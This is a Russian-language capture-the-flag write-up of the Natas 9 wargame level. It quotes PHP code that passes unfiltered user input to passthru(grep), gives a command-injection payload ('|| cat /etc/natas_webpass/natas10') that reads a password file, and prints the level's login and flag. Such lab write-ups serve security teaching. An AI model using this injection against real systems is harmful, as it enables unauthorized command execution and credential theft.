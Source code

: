 # Natas 9
<kbd>Username</kbd> natas9

<kbd>Password</kbd> ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

<kbd>Flag</kbd> t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

Заходим на сайт. Снова поле для ввода, говорящее что найдёт слова, содержащие что-либо. Просматриваем исходный код.
```php
$key = "";
```
Есть переменная key, содержащая пустую строку.

```php
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
```
В этом условии, если в массив REQUEST содержится ключ needle, то переменной key присваивается значение needle в массиве REQUEST.

```php
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```
Здесь если переменная key содержит что-либо, то выполняется UNIX-коменда grep -i $key dictionary.txt
Из этого следует, что данные, введённые пользователем передаются в командную строку (на что намекает passthru в коде) + они не фильтруются.

Через пайплайн выполняем следующее:
```shell
|| cat /etc/natas_webpass/natas10
```
Получем флаг. Так же можно поэкспериментировать и выполнить другие команды.